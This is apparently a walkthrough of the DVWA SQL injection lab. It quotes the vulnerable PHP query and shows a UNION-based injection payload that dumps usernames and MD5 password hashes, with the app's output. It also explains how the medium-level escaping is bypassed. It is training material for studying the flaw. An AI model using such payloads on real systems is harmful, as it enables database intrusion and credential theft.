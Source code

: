 # SQL Injection

Despite being a very well understood class of attack, SQL injection vulnerabilities are still alarmingly common.

## Low

The relevant chunk from the source code of the low security SQLi challenge:

```php
$id = $_GET['id'];

$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );
```

With no sanitisation on the value, it's pretty clear that `$id` is our point of injection.

The first thing I want to do is get some information. We know for free that there's a table called `users` containing the columns `user_id`, `first_name` and `last_name`.

We can try to find out some other column names, but we can at least guess that there might be a `user` or `password` field. The original query selects values from two columns, so we can use a `UNION` statement in our injection to extract values from two additional columns.

```
1' UNION SELECT user, password FROM users;#
```

What luck! As hoped, the application spits out the following:

```
ID: 1' UNION SELECT user, password FROM users;#
First name: admin
Surname: admin

ID: 1' UNION SELECT user, password FROM users;#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' UNION SELECT user, password FROM users;#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' UNION SELECT user, password FROM users;#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' UNION SELECT user, password FROM users;#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' UNION SELECT user, password FROM users;#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

So now we have a set of usernames and password hashes.

```
admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99
```

We'll brute force those in the [tips and tricks section](../tips_and_tricks/cracking_hashes.md). For now, let's crank up the difficulty and move on to seeing what else we can find.

## Medium

```php
$id = mysql_real_escape_string($id);
```

Medium security adds a little sanitisation. `mysql_real_escape_string` will convert all instances of `'` in the passed in value to `\'`. Any injection strings containing an apostrophe will be broken. However, the initial query does not pad `$id`, so our injection still works. More complex injections specifying strings are likely to fail.

(Further reading: http://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string)